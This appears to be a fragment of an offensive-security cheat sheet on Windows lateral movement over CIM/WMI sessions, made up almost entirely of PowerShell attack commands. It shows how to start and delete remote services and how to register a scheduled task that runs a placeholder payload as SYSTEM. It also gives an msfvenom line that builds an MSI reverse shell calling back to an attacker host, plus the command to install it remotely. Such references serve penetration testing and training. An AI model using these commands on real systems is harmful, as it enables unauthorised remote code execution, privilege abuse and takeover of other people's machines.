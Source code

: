 ```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '$ServiceName'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

**Scheduled task creation (blind)**
```powershell
$Command = "<cmd-payload>"
$Args = "<payload-args>"
$TaskName = "<task-name>"

# Run a task
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName $TaskName
Start-ScheduledTask -CimSession $Session -TaskName $TaskName

# Stop the task
Unregister-ScheduledTask -CimSession $Session -TaskName $TaskName
```

**Installing MSI packages**
```powershell
# Generate MSI reverse shell payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4443 -f msi > "<package-name.msi>"

# Install MSI payload
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<package-path.msi>"; Options = ""; AllUsers = $false}
```